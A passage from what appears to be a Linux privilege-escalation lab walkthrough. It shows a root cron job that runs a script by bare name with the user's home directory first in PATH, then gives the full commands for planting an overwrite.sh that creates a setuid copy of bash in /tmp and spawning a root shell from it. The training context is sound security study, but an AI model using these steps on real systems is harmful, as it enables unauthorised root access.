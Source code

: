 View the contents of the system-wide crontab:
```
cat /etc/crontab
```
```
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
Note that the PATH variable starts with /home/user which is our user's home directory.
```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Create a file called overwrite.sh in your home directory with the following contents:
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:
```
chmod +x /home/user/overwrite.sh
```

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!
```
rm /tmp/rootbash
```